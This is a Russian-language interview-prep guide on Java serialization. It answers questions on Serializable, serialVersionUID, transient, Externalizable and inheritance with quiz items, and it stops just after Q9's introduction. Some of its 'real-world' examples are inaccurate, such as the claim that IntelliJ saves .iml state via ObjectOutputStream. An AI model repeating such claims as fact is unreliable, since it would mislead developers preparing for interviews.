# Вопросы на собеседовании: `Java Serialization`

Полное руководство по вопросам собеседования на тему сериализации в `Java`. Охватывает стандартный механизм (`Serializable`, `Externalizable`), управление совместимостью (`serialVersionUID`), кастомную сериализацию, паттерн `Serialization Proxy`, безопасность десериализации, `ObjectInputFilter`, JSON-сериализацию (`Jackson`, `Gson`), сериализацию `record` и `sealed` классов, а также альтернативные форматы (`Protobuf`, `Avro`, `Kryo`).

## Полезные ссылки

### Официальная документация

- [Java Object Serialization Specification](https://docs.oracle.com/en/java/javase/17/docs/specs/serialization/index.html) — спецификация механизма сериализации
- [Serializable (Javadoc)](https://docs.oracle.com/en/java/javase/17/docs/api/java.base/java/io/Serializable.html) — документация маркерного интерфейса
- [ObjectInputFilter (Javadoc)](https://docs.oracle.com/en/java/javase/17/docs/api/java.base/java/io/ObjectInputFilter.html) — фильтрация при десериализации
- [Jackson Documentation](https://github.com/FasterXML/jackson-docs) — документация Jackson
- [Protocol Buffers Language Guide](https://protobuf.dev/programming-guides/proto3/) — руководство по Protobuf

### Baeldung

- [Introduction to Java Serialization — Baeldung](https://www.baeldung.com/java-serialization) — основы сериализации: ObjectOutputStream, ObjectInputStream
- [Deserialization Vulnerabilities in Java — Baeldung](https://www.baeldung.com/java-deserialization-vulnerabilities) — уязвимости десериализации и защита
- [Intro to the Jackson ObjectMapper — Baeldung](https://www.baeldung.com/jackson-object-mapper-tutorial) — сериализация/десериализация JSON через Jackson
- [Different Serialization Approaches for Java — Baeldung](https://www.baeldung.com/java-serialization-approaches) — сравнение подходов: Java, JSON, Protobuf, Kryo

## Содержание

- [Полезные ссылки](#полезные-ссылки)
- [See also](#see-also)

**Основы: `Serializable`, `serialVersionUID`, `transient`**
- [Q1. (!) Что такое сериализация и зачем она нужна?](#q1--что-такое-сериализация-и-зачем-она-нужна)
- [Q2. (!) Что такое маркерный интерфейс `Serializable`?](#q2--что-такое-маркерный-интерфейс-serializable)
- [Q3. (!) Что такое `serialVersionUID` и когда его задавать?](#q3--что-такое-serialversionuid-и-когда-его-задавать)
- [Q4. Какие поля не сериализуются (`transient`, `static`)?](#q4-какие-поля-не-сериализуются-transient-static)
- [Q5. Что происходит с совместимостью при изменении класса между версиями?](#q5-что-происходит-с-совместимостью-при-изменении-класса-между-версиями)

**`Externalizable`, наследование, специальные методы**
- [Q6. (!) Что такое `Externalizable` и чем отличается от `Serializable`?](#q6--что-такое-externalizable-и-чем-отличается-от-serializable)
- [Q7. Как сериализуется наследование (родитель не `Serializable`)?](#q7-как-сериализуется-наследование-родитель-не-serializable)
- [Q8. Как сериализовать объект в файл и обратно?](#q8-как-сериализовать-объект-в-файл-и-обратно)
- [Q9. (!) Что такое `writeReplace` и `readResolve`?](#q9--что-такое-writereplace-и-readresolve)

**Кастомная сериализация: `writeObject`/`readObject`**
- [Q10. (!) Как использовать custom `writeObject`/`readObject`?](#q10--как-использовать-custom-writeobjectreadobject)
- [Q11. Как правильно валидировать данные в `readObject`?](#q11-как-правильно-валидировать-данные-в-readobject)
- [Q12. Как сериализовать `enum` в `Java`?](#q12-как-сериализовать-enum-в-java)

**Serialization Proxy Pattern**
- [Q13. (!) Что такое `Serialization Proxy Pattern` и зачем он нужен?](#q13--что-такое-serialization-proxy-pattern-и-зачем-он-нужен)
- [Q14. Какие плюсы и минусы у `Serialization Proxy Pattern`?](#q14-какие-плюсы-и-минусы-у-serialization-proxy-pattern)

**Безопасность десериализации**
- [Q15. (!) Какие риски безопасности у `Java Serialization`?](#q15--какие-риски-безопасности-у-java-serialization)
- [Q16. (!) Что такое gadget chain и как работают атаки десериализации?](#q16--что-такое-gadget-chain-и-как-работают-атаки-десериализации)
- [Q17. (!) Что такое `ObjectInputFilter` и как его настроить?](#q17--что-такое-objectinputfilter-и-как-его-настроить)
- [Q18. Как защитить приложение от атак десериализации?](#q18-как-защитить-приложение-от-атак-десериализации)

**Сериализация `record` и `sealed` классов**
- [Q19. (!) Как сериализуются `record` классы в `Java`?](#q19--как-сериализуются-record-классы-в-java)
- [Q20. Как работает сериализация с `sealed` классами?](#q20-как-работает-сериализация-с-sealed-классами)

**JSON-сериализация: `Jackson`, `Gson`**
- [Q21. (!) Как работает `Jackson` и его основные аннотации?](#q21--как-работает-jackson-и-его-основные-аннотации)
- [Q22. Чем `Jackson` отличается от `Gson`?](#q22-чем-jackson-отличается-от-gson)
- [Q23. Как обрабатывать полиморфизм при JSON-сериализации в `Jackson`?](#q23-как-обрабатывать-полиморфизм-при-json-сериализации-в-jackson)
- [Q24. Как настроить кастомный сериализатор/десериализатор в `Jackson`?](#q24-как-настроить-кастомный-сериализатордесериализатор-в-jackson)
- [Q25. Какие проблемы безопасности есть у JSON-десериализации?](#q25-какие-проблемы-безопасности-есть-у-json-десериализации)

**Альтернативные форматы: `Protobuf`, `Avro`, `Kryo`**
- [Q26. (!) Что такое `Protocol Buffers` и когда их использовать?](#q26--что-такое-protocol-buffers-и-когда-их-использовать)
- [Q27. Что такое `Apache Avro` и чем он отличается от `Protobuf`?](#q27-что-такое-apache-avro-и-чем-он-отличается-от-protobuf)
- [Q28. Что такое `Kryo` и когда его выбирают?](#q28-что-такое-kryo-и-когда-его-выбирают)
- [Q29. (!) Как выбрать формат сериализации для проекта?](#q29--как-выбрать-формат-сериализации-для-проекта)

**Сериализация в микросервисах**
- [Q30. (!) Почему в микросервисах обычно избегают `Java Serialization`?](#q30--почему-в-микросервисах-обычно-избегают-java-serialization)
- [Q31. Как организовать версионирование схем в микросервисной архитектуре?](#q31-как-организовать-версионирование-схем-в-микросервисной-архитектуре)
- [Q32. Как сериализация связана с паттернами обмена сообщениями?](#q32-как-сериализация-связана-с-паттернами-обмена-сообщениями)

**Безопасность и продвинутые механизмы**
- [Q33. (!) Десериализация как вектор атаки — OWASP и реальные эксплойты](#q33--десериализация-как-вектор-атаки--owasp-и-реальные-эксплойты)
- [Q34. (!) Как `readResolve()` обеспечивает Singleton при десериализации?](#q34--как-readresolve-обеспечивает-singleton-при-десериализации)
- [Q35. Что такое `serialPersistentFields` и когда его использовать?](#q35-что-такое-serialpersistentfields-и-когда-его-использовать)
- [Q36. Как сериализация работает с наследованием и `abstract class`?](#q36-как-сериализация-работает-с-наследованием-и-abstract-class)

**Сериализация в Spring и альтернативные фреймворки**
- [Q37. (!) Как Spring обрабатывает сериализацию через `HttpMessageConverter`?](#q37--как-spring-обрабатывает-сериализацию-через-httpmessageconverter)
- [Q38. (!) Jackson vs Gson — углублённое сравнение для Spring-проектов](#q38--jackson-vs-gson--углублённое-сравнение-для-spring-проектов)
- [Q39. FST — быстрый аналог Java Serialization](#q39-fst--быстрый-аналог-java-serialization)
- [Q40. Как сериализуются `Java Record` — детали механизма](#q40-как-сериализуются-java-record--детали-механизма)

---

## Q1. (!) Что такое сериализация и зачем она нужна?

**Сериализация** — это преобразование объекта в поток байтов (или в другой формат), чтобы его можно было сохранить на диск, передать по сети или положить в кэш. Обратный процесс восстановления объекта из потока называется **десериализацией**. В `Java` стандартный механизм — классы `ObjectOutputStream` и `ObjectInputStream`, работающие с бинарным форматом, специфичным для `JVM`.



Основные сценарии использования:
- **Персистентность** — сохранение состояния приложения (сессии, чекпоинты)
- **RMI** — удалённый вызов методов между JVM
- **Кэширование** — сохранение объектов в распределённых кэшах (`Redis`, `Hazelcast`)
- **Очереди сообщений** — передача объектов через [Kafka](../../messaging/kafka-interview.md), `RabbitMQ`

Важно понимать, что бинарная Java-сериализация привязана к платформе и к версии класса. Для межсистемного обмена и современных сервисов чаще применяют альтернативы: `JSON`, `XML`, `Protocol Buffers` — они не выполняют произвольный код при десериализации и обычно безопаснее.


> [!mcq]
> - [ ] Сериализация — это компиляция `.java` в `.class` для последующей загрузки `ClassLoader` | Путаница с терминологией: компиляция превращает исходник в bytecode, сериализация работает с уже загруженными объектами в heap. ❌ ПОСЛЕДСТВИЕ: разработчик пишет `ObjectOutputStream` для распространения jar-зависимостей → артефакт битый, `NoClassDefFoundError` на старте микросервиса.
> - [ ] Сериализация — это deep copy объекта внутри одной JVM через рефлексию без потоков | Подменяет понятия: deep copy через сериализацию — частный анти-паттерн (медленно, требует `Serializable`), а не определение. ❌ ПОСЛЕДСТВИЕ: команда копирует graph 10K nodes через `ObjectOutputStream` → 200ms latency на каждом запросе вместо 2ms через copy-constructor.
> - [ ] Сериализация — это сжатие объектов алгоритмом Deflate перед сохранением в БД | Сжатие — опциональная обёртка над сериализацией (`GZIPOutputStream`), не сама операция; объект сначала превращается в байты. ❌ ПОСЛЕДСТВИЕ: разработчик ожидает что Java сжимает автоматически → в Redis улетают сырые 50KB blob вместо 5KB, RAM кластера выгорает за неделю.
> - [x] Сериализация — преобразование объекта в поток байтов для сохранения/передачи; в Java стандарт — `ObjectOutputStream`/`ObjectInputStream` | Поток байтов независим от runtime: его можно записать в файл, отправить по сети или сохранить в кэш, а потом восстановить через `ObjectInputStream.readObject()`. ✓ ПРИМЕНЯТЬ: Hazelcast/Apache Ignite сериализуют entries для распределения по нодам кластера. 📋 ПРАВИЛО: «Object → bytes → wire/disk → bytes → Object». 🔗 См. Q2, Q8, Q26.

## Q2. (!) Что такое маркерный интерфейс `Serializable`?

`Serializable` — это маркерный интерфейс в пакете `java.io`: у него нет методов, он лишь помечает класс как допускающий сериализацию. Класс должен реализовать `Serializable`, чтобы `JVM` разрешила записывать его экземпляры через `ObjectOutputStream`. Если попытаться сериализовать объект класса без этого интерфейса, будет выброшено `NotSerializableException`.

Все подклассы сериализуемого класса автоматически считаются сериализуемыми. Если в классе есть поля ссылочных типов, их классы тоже должны быть сериализуемы (или поля помечены `transient`). Несериализуемые поля либо объявляют `transient`, либо обеспечивают их инициализацию через методы `readObject` / `readResolve`.

```java
public class User implements Serializable {
    private static final long serialVersionUID = 1L;
    private final String name;
    private final int age;
    private transient Logger log = LoggerFactory.getLogger(User.class); // не сериализуется

    public User(String name, int age) {
        this.name = name;
        this.age = age;
    }
}
// Без Serializable при writeObject(obj) — NotSerializableException
```

На собеседовании часто спрашивают: *"Почему `Serializable` — маркерный, а не содержит методы?"* Ответ: стандартный механизм использует рефлексию для чтения полей, поэтому методы не нужны. Но если нужен контроль — используются приватные методы `writeObject`/`readObject` или интерфейс `Externalizable`.


> [!mcq]
> - [ ] `Serializable` содержит абстрактные методы `serialize()`/`deserialize()`, которые класс обязан реализовать | Это **маркерный** интерфейс — у него нет методов, он только помечает класс. Логика сериализации выполняется JVM через рефлексию. ❌ ПОСЛЕДСТВИЕ: junior пишет `@Override public void serialize()` → файл не компилируется, теряет час на StackOverflow.
> - [x] `Serializable` — маркерный интерфейс без методов; делает класс пригодным к записи через `ObjectOutputStream` | Все подклассы автоматически тоже сериализуемы. Несериализуемые поля помечают `transient` или восстанавливают в `readObject`. ✓ ПРИМЕНЯТЬ: Spring Session хранит `HttpSession` атрибуты в Redis — все объекты сессии должны быть `Serializable`. 📋 ПРАВИЛО: «Маркер без методов — JVM делает всё через рефлексию». 🔗 См. Q1, Q3, Q6.
> - [ ] `Serializable` запрещает наследникам переопределять `equals()` и `hashCode()` | Никаких ограничений на `equals/hashCode` интерфейс не накладывает; оба метода свободно переопределяются. ❌ ПОСЛЕДСТВИЕ: разработчик считает что наследник нельзя класть в `HashMap` → пишет велосипед `IdentityHashMap`, теряет O(1) lookup.
> - [ ] `Serializable` гарантирует, что класс можно безопасно передавать между JVM разных версий Java | Никаких гарантий совместимости — это решает `serialVersionUID` + правила эволюции класса (см. Q5). Между Java 8 и 17 даже `HashMap` менял формат. ❌ ПОСЛЕДСТВИЕ: миграция кэша Hazelcast с Java 8 на 17 без перепрогрева → `InvalidClassException` на 30% записей, корзины пользователей теряются.

## Q3. (!) Что такое `serialVersionUID` и когда его задавать?

`serialVersionUID` — это число типа `long`, которое идентифицирует версию сериализованного класса. При десериализации, если UID в потоке не совпадает с UID класса в `JVM`, выбрасывается `InvalidClassException`.

Если разработчик **не задаёт** `serialVersionUID` явно, `JVM` вычисляет его на основе сигнатур полей, методов, суперклассов и интерфейсов. При любом изменении класса (даже добавлении `private` метода) это значение может измениться, и старые данные перестанут десериализоваться.

```java
// Рекомендация: всегда задавать явно
private static final long serialVersionUID = 1L;
```

**Стратегия управления:**

| Изменение | Действие с `serialVersionUID` |
|-----------|-------------------------------|
| Добавление поля с default-значением | Оставить тем же |
| Добавление `transient` поля | Оставить тем же |
| Удаление поля | Осторожно — можно оставить, но данные потеряются |
| Смена типа поля | Изменить UID (несовместимое изменение) |
| Переименование поля | Изменить UID |

Joshua Bloch в *Effective Java* рекомендует **всегда** явно задавать `serialVersionUID` в каждом `Serializable`-классе.


> [!mcq]
> - [ ] `serialVersionUID` хранит timestamp создания класса; обновляется автоматически при каждой сборке | Это **константа long**, которую разработчик задаёт явно (или JVM вычисляет hash от структуры). Никакого timestamp механизма нет. ❌ ПОСЛЕДСТВИЕ: тимлид считает что Maven build обновляет UID → плановая ребалансировка кэша вызывает `InvalidClassException` на каждом восстановлении сессии.
> - [ ] Если не задать UID явно, при первой сериализации JVM запишет в поток `0L` и больше его не меняет | На самом деле JVM вычисляет UID как hash от полей/методов/иерархии — он меняется при **любой** правке структуры класса. ❌ ПОСЛЕДСТВИЕ: после рефакторинга добавил `private` метод → автоматический UID изменился, старые сериализованные объекты в Redis не читаются, корзины пользователей пусты.
> - [x] `serialVersionUID` — `long`-идентификатор версии класса; рекомендуется задавать явно `private static final long serialVersionUID = 1L;` | При несовпадении UID в потоке и классе — `InvalidClassException`. Без явного UID JVM генерирует hash от структуры — он ломается при любом рефакторинге. ✓ ПРИМЕНЯТЬ: Effective Java Item 87 (Bloch) — обязательно задавать в каждом `Serializable`-классе. 📋 ПРАВИЛО: «Явный UID — стабильность; авто-UID — мина под рефакторинг». 🔗 См. Q2, Q5, Q19.
> - [ ] `serialVersionUID` обязателен только для `Externalizable`, для `Serializable` опционален и игнорируется | Семантика одинаковая: и `Serializable`, и `Externalizable` используют UID для проверки совместимости при `readObject`. ❌ ПОСЛЕДСТВИЕ: команда не задаёт UID на DTO → IDE genUid даёт hash, после переименования поля все клиенты `RestTemplate` со старыми объектами в очереди RabbitMQ падают.

## Q4. Какие поля не сериализуются (`transient`, `static`)?

Поля с модификатором **`transient`** не записываются в поток сериализации. При десериализации им присваиваются значения по умолчанию: `null` для ссылок, `0` для чисел, `false` для `boolean`.

**Статические** (`static`) поля не сериализуются — они принадлежат классу, а не экземпляру.

Типичные кандидаты на `transient`:
- Логгеры (`Logger`)
- Кэши и вычисляемые поля
- Ресурсы (`Connection`, `Socket`, `InputStream`)
- Пароли и чувствительные данные

```java
public class CachedResult implements Serializable {
    private static final long serialVersionUID = 1L;
    private final String data;
    private transient volatile Object cache;       // не сериализуется → null
    private transient Logger log;                   // не сериализуется → null
    private static int instanceCount;               // не сериализуется (static)

    // восстанавливаем transient-поля после десериализации
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        this.cache = compute(data);
        this.log = LoggerFactory.getLogger(CachedResult.class);
    }
}
```


> [!mcq]
> - [x] Поля `transient` и `static` не записываются в поток; `transient` после `readObject` получают default-значения (`null`/`0`/`false`) | `static` принадлежат классу, а не экземпляру; `transient` помечают вычисляемые/чувствительные/несериализуемые поля. Восстановить их можно в `readObject`. ✓ ПРИМЕНЯТЬ: Spring Session помечает `transient` логгеры и connection-объекты, кэшируя только бизнес-данные. 📋 ПРАВИЛО: «`transient` — поле есть в объекте, но не в потоке». 🔗 См. Q2, Q10, Q11.
> - [ ] Только `transient` пропускается; `static` поля сериализуются как часть состояния объекта | `static` — поле класса, оно одно на JVM и не привязано к экземпляру; в поток не пишется. ❌ ПОСЛЕДСТВИЕ: команда хранит счётчик `static int instanceCount` и ожидает что он переживёт рестарт через сериализованный snapshot → после загрузки счётчик 0, метрики Prometheus сбрасываются.
> - [ ] `transient` приводит к `NullPointerException` при `readObject`, потому что поле не инициализируется | Default-значение присваивается автоматически (`null` для ссылок, `0` для примитивов); NPE возникает только при обращении до восстановления. ❌ ПОСЛЕДСТВИЕ: разработчик помечает `transient` `Logger log` и удивляется NPE в первом методе после deserialize → не сделал re-init в `readObject`, traffic падает.
> - [ ] И `transient`, и `final` поля автоматически исключаются из сериализации | `final` поля сериализуются как обычные — `JVM` восстанавливает их через рефлексию (минуя присвоение `final` в конструкторе). ❌ ПОСЛЕДСТВИЕ: разработчик надеется что `final` секрет не попадёт в Redis → пароль уезжает в кэш в открытом виде, security-аудит фиксирует утечку PII.

## Q5. Что происходит с совместимостью при изменении класса между версиями?

Совместимость сериализации определяется `serialVersionUID` и правилами совместимых/несовместимых изменений.

**Совместимые изменения** (не ломают десериализацию при том же UID):
- Добавление нового поля — при десериализации старых данных получит значение по умолчанию
- Добавление `writeObject`/`readObject` методов
- Изменение модификатора доступа поля
- Добавление/удаление `transient` модификатора

**Несовместимые изменения** (требуют смены UID):
- Удаление поля (данные потеряны)
- Перемещение класса по иерархии наследования
- Смена типа примитивного поля (например, `int` → `long`)
- Изменение `Serializable` на `Externalizable` и наоборот



Для долгоживущих форматов рекомендуется переходить на форматы с явным версионированием схем (`Protobuf`, `Avro`), где эволюция модели управляется через схемы, а не через поведение `JVM`.


> [!mcq]
> - [ ] Любое изменение класса требует смены `serialVersionUID`, иначе `JVM` молча теряет данные | `JVM` не теряет данные молча — она бросает `InvalidClassException`. И большинство изменений (добавление поля, смена модификатора) **совместимы** при сохранении UID. ❌ ПОСЛЕДСТВИЕ: команда меняет UID при каждом релизе → весь кэш Hazelcast инвалидируется на каждом deploy, hit-ratio падает с 95% до 0%.
> - [ ] Добавление нового поля несовместимо: десериализатор не сможет прочитать старые объекты без этого поля | Добавление поля **совместимо**: при чтении старых данных новое поле получит default-значение (`null`/`0`). UID можно не менять. ❌ ПОСЛЕДСТВИЕ: разработчик после добавления поля бампит UID → 100K сообщений в RabbitMQ-очереди становятся poison pills, dead-letter exchange переполняется.
> - [ ] Смена типа поля `int` → `long` совместима — JVM делает widening conversion автоматически | Смена типа поля **несовместима**, даже примитив→примитив: `JVM` ожидает в потоке `int`, а класс декларирует `long` — `InvalidClassException`. ❌ ПОСЛЕДСТВИЕ: расширение `userId` с `int` на `long` без миграции кэша → весь Redis превращается в мусор, миллион пользователей разлогинивается.
> - [x] Совместимы: добавление полей, смена модификатора, добавление `transient`. Несовместимы: удаление поля, смена типа, переход `Serializable`↔`Externalizable` | Совместимые изменения позволяют читать старые данные (новые поля = default). Несовместимые требуют миграции данных или версионирования. ✓ ПРИМЕНЯТЬ: Confluent Schema Registry (Avro) формализует правила совместимости — backward/forward/full compatibility. 📋 ПРАВИЛО: «Добавлять — можно, удалять/менять тип — нет». 🔗 См. Q3, Q27, Q31.

## Q6. (!) Что такое `Externalizable` и чем отличается от `Serializable`?

`Externalizable` расширяет `Serializable` и добавляет два метода: `writeExternal(ObjectOutput out)` и `readExternal(ObjectInput in)`. Класс сам решает, какие поля и в каком порядке записывать и читать.

| Характеристика | `Serializable` | `Externalizable` |
|----------------|----------------|-------------------|
| Контроль | Автоматический (рефлексия) | Полный (ручной) |
| No-arg конструктор | Не требуется | **Обязателен** (public) |
| Производительность | Медленнее (рефлексия) | Быстрее |
| Размер потока | Больше (метаданные) | Меньше (только данные) |
| `transient` | Учитывается | Игнорируется (управление вручную) |
| Сложность | Низкая | Высокая |

```java
public class CompactDto implements Externalizable {
    private String name;
    private int id;

    public CompactDto() {}  // обязателен для десериализации

    @Override
    public void writeExternal(ObjectOutput out) throws IOException {
        out.writeUTF(name);
        out.writeInt(id);
    }

    @Override
    public void readExternal(ObjectInput in) throws IOException {
        name = in.readUTF();
        id = in.readInt();
    }
}
```

Из-за ручного поддержания совместимости `Externalizable` используют реже. В современных проектах для оптимизации размера и скорости обычно выбирают `Protobuf` или `Kryo`, а не `Externalizable`.


> [!mcq]
> - [ ] `Externalizable` идентичен `Serializable`, но требует Java 17+ из-за нового API `ObjectInput`/`ObjectOutput` | `Externalizable` существует с Java 1.1 (1997 год). Отличие — **полный ручной контроль** через `writeExternal`/`readExternal`, а не Java-версия. ❌ ПОСЛЕДСТВИЕ: junior пишет `implements Externalizable` на Java 8 проекте → собрал, запустил, всё работает; репутация ментора падает.
> - [x] `Externalizable` extends `Serializable`, добавляет `writeExternal`/`readExternal` и **обязывает no-arg конструктор**; контроль ручной, transient игнорируется | Класс сам решает, какие поля и в каком порядке писать. Быстрее и компактнее, но совместимость поддерживается вручную. ✓ ПРИМЕНЯТЬ: Apache Hadoop `Writable` (аналог `Externalizable`) для оптимизации MapReduce shuffle. 📋 ПРАВИЛО: «Externalizable — ты пишешь байты сам, но и no-arg ctor сам». 🔗 См. Q2, Q9, Q28.
> - [ ] `Externalizable` автоматически шифрует поля через JCE без явного вызова `Cipher` | Никакого шифрования: интерфейс только определяет где писать байты, шифрование подключается отдельно (`CipherOutputStream`). ❌ ПОСЛЕДСТВИЕ: команда полагается на «встроенное шифрование» → отправляет PII через Kafka в plaintext, GDPR-инцидент с штрафом.
> - [ ] `Externalizable` отличается отсутствием требования no-arg конструктора — его генерирует `Unsafe.allocateInstance` | Ровно наоборот: `Serializable` обходится без конструктора (использует `Unsafe`), а `Externalizable` **требует public no-arg ctor** — `JVM` создаёт через него и потом вызывает `readExternal`. ❌ ПОСЛЕДСТВИЕ: разработчик меняет `Serializable` на `Externalizable` для скорости → `InvalidClassException: no valid constructor` на проде, откат деплоя.

## Q7. Как сериализуется наследование (родитель не `Serializable`)?

Если родительский класс **не** реализует `Serializable`, при сериализации объекта-потомка в поток попадают только поля потомка. Поля родителя не сохраняются. При десериализации `JVM` вызывает **конструктор по умолчанию** родительского класса, поэтому у него **обязан** быть доступный no-arg конструктор (иначе `InvalidClassException`).



Если родитель сам реализует `Serializable`, его поля сериализуются вместе с потомком: граф идёт от родителя к потомку. Инициализация при десериализации идёт без вызова обычных конструкторов — поля восстанавливаются из потока.

```java
class Animal {
    String species;
    Animal() { this.species = "unknown"; } // обязателен!
}

class Dog extends Animal implements Serializable {
    private static final long serialVersionUID = 1L;
    String name;
    // species НЕ сохранится при сериализации
    // после десериализации species = "unknown" (из конструктора Animal)
}
```


> [!mcq]
> - [ ] Поля родителя сериализуются автоматически вместе с потомком, даже если родитель не `Serializable` | Поля родителя без `Serializable` **не сохраняются** — только поля сериализуемого подкласса. При десериализации они инициализируются через no-arg ctor родителя. ❌ ПОСЛЕДСТВИЕ: команда хранит баланс `Wallet extends Account` где `Account` не Serializable → после restart значение `balance` (поле родителя) обнуляется, клиенты теряют деньги в кэше.
> - [ ] Десериализация падает с `NotSerializableException`, если родитель не реализует `Serializable` | Не падает: подкласс остаётся сериализуемым. Падение случится только если у родителя **нет** доступного no-arg конструктора. ❌ ПОСЛЕДСТВИЕ: разработчик добавляет `implements Serializable` родителю «на всякий случай» → ломает чужой immutable API без no-arg ctor, у соседней команды падает CI.
> - [x] Поля несериализуемого родителя НЕ сохраняются; при десериализации вызывается **no-arg конструктор родителя** (обязателен, иначе `InvalidClassException`) | Поля подкласса восстанавливаются из потока, поля родителя — через его no-arg ctor (значения по умолчанию из конструктора). ✓ ПРИМЕНЯТЬ: JPA-сущности часто наследуют `BaseEntity` без `Serializable` — детский баланс полей в кэше второго уровня предсказуем. 📋 ПРАВИЛО: «Не Serializable родитель = no-arg ctor + потеря его полей». 🔗 См. Q2, Q36, Q19.
> - [ ] JVM использует `sun.misc.Unsafe.allocateInstance` для обхода no-arg конструктора родителя | `Unsafe` используется только когда родитель **сам** Serializable (тогда конструктор не вызывается вообще). Если родитель не Serializable — обязателен no-arg ctor. ❌ ПОСЛЕДСТВИЕ: разработчик считает что Java 17+ обходит требование → деплой Quarkus в Native Image, где `Unsafe` ограничен, падает на старте с `InvalidClassException`.

## Q8. Как сериализовать объект в файл и обратно?

Сериализация выполняется через связку `FileOutputStream` + `ObjectOutputStream`, десериализация — через `FileInputStream` + `ObjectInputStream`. Обязательно использовать `try-with-resources` для закрытия потоков.

```java
// Запись
try (var fos = new FileOutputStream("data.ser");
     var oos = new ObjectOutputStream(fos)) {
    oos.writeObject(user);
}

// Чтение
try (var fis = new FileInputStream("data.ser");
     var ois = new ObjectInputStream(fis)) {
    User user = (User) ois.readObject();
}
```

Важные нюансы:
- `readObject()` возвращает `Object` — нужно приведение типа
- Обрабатывать `IOException` и `ClassNotFoundException`
- При записи нескольких объектов — соблюдать тот же порядок при чтении
- Для больших графов объектов может потребоваться значительный объём памяти


> [!mcq]
> - [x] `FileOutputStream` + `ObjectOutputStream.writeObject()` для записи; `FileInputStream` + `ObjectInputStream.readObject()` + cast для чтения; обязательно `try-with-resources` | `readObject()` возвращает `Object` (нужен cast), бросает `IOException` и `ClassNotFoundException`. ✓ ПРИМЕНЯТЬ: IntelliJ IDEA сохраняет `.iml` workspace state через `ObjectOutputStream` для быстрого восстановления при старте. 📋 ПРАВИЛО: «Wrap FileStream в ObjectStream + try-with-resources». 🔗 См. Q1, Q2, Q10.
> - [ ] Достаточно `new FileOutputStream("data.ser").write(obj)` — `FileOutputStream` имеет перегрузку для `Object` | `FileOutputStream.write` принимает только `int`/`byte[]`. Без `ObjectOutputStream` объект не превратится в байты. ❌ ПОСЛЕДСТВИЕ: junior пишет `fos.write(user)` → compile error, разбирается час, в спринте проваливает story point.
> - [ ] Нужно явно вызвать `obj.serialize(stream)` — метод приходит из `Serializable` | `Serializable` не содержит методов; вся логика — в `ObjectOutputStream.writeObject()`. ❌ ПОСЛЕДСТВИЕ: тимлид требует `serialize()` в каждом DTO → 200 строк boilerplate, после code review коллега удаляет всё за минуту.
> - [ ] Обязательно вручную закрывать поток через `finally { fos.close() }`, иначе данные не попадут на диск | `try-with-resources` (Java 7+) делает это автоматически и корректно при exception. Ручной `finally` — устаревшая практика. ❌ ПОСЛЕДСТВИЕ: разработчик забывает `flush()` в catch-блоке → файл создан, но размер 0; backup восстановления данных бесполезен после краша.

## Q9. (!) Что такое `writeReplace` и `readResolve`?

Это специальные методы, позволяющие подменить объект при сериализации/десериализации.

